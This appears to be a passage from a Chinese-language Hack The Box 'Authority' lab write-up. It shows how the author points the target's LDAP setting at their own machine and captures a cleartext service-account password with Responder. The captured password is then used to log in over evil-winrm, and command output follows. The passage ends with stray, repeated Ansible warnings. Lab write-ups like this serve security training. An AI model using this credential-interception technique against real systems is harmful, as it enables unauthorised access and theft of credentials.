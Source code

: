
## Initial Access

可以在上图的WARN看到LDAP服务器 `ldaps://authority.authority.htb:636`。找到配置尝试添加kali为LDAP服务器。


![HTB-Authority-8443-ldap-setting](HTB-Authority-8443-ldap-setting.png)

执行`sudo responder -I tun0 -v`，然后点击 `Test LDAP Profile`，可以收到明文凭据 `svc_ldap:lDaP_1n_th3_cle4r!`：
```bash
（略）
[+] Servers:
（略）
    LDAP server                [ON]
（略）
[+] Listening for events...                                                                                         

[LDAP] Attempting to parse an old simple Bind request.
[LDAP] Cleartext Client   : 10.10.11.222
[LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
[LDAP] Cleartext Password : lDaP_1n_th3_cle4r!
（略）
``` 

由于开放了5985端口，尝试 `evil-winrm` 连接：
```bash
┌──(venv-ansible)─(kali㉿kali)-[~/HTB/Authority]
└─$ evil-winrm -i 10.10.11.222 -u svc_ldap -p lDaP_1n_th3_cle4r!
（略）
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> whoami
htb\svc_ldap

*Evil-WinRM* PS C:\Users\svc_ldap\Downloads> whoami /all

USER INFORMATION
----------------

User Name    SID
============ =============================================
htb\svc_ldap S-1-5-21-622327497-3269355298-2248959698-1601


GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
```

[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with yaml
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with ini
[WARNING]: Unable to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory as an inventory
[WARNING]: No inventory was parsed, only implicit localhost is available
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with yaml
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with ini
[WARNING]: Unable to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory as an inventory
[WARNING]: No inventory was parsed, only implicit localhost is available